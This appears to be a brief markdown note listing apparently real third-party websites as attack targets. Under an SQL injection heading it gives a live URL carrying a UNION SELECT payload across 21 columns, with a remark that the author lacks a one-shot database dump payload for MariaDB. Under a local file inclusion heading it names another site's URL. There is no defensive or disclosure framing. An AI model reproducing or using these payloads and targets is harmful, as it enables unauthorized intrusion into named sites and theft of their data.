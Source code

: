 # SQLI:
- https://www.kameng.in/search_view.php?id=-181  Union Select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21--+ (i dont have a dios for MariaDB)
# lfi 
- https://www.alpha.am/site/index.php?go=goodcat&cat=61&type=210&id=3078
